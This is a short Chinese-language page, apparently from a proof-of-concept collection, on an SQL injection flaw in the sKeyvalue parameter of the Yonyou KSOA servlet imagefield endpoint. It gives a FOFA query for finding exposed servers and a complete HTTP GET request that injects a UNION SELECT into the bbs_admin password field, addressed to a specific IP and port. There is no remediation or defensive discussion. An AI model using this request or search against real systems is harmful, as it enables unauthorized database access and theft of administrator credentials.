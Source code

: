 # 用友时空 KSOA servlet imagefield 文件 sKeyvalue 参数 SQL 注入漏洞

    ## fofa

```
body="onmouseout=\"this.classname='btn btnOff'\""
```

## poc

```
GET /servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1'+union+select+sys.fn_varbintohexstr(hashbytes('md5','test'))--+ HTTP/1.1
Host: 1.192.90.153:1111
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip


```
